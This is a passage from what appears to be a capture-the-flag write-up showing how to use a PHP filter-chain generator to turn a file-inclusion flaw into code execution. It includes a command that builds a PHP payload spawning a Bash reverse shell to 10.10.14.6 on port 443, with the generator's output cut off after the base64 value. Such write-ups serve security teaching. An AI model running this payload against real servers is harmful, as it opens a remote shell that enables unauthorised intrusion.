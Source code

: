 When I put this into Repeater, it works:

[![image-20230412095538974](../img/image-20230412095538974.png)_Click for full
size image_](../img/image-20230412095538974.png)

#### Shell

I’ll generate another filter chain, this time with a [Bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    
    
    oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?>'
    [+] The following gadget chain will generate the following code : <?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?> (base64 value: PD9waHAgc3lzdGVtKCJiYXNoIC1jIFwiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIFwiIik7ID8+)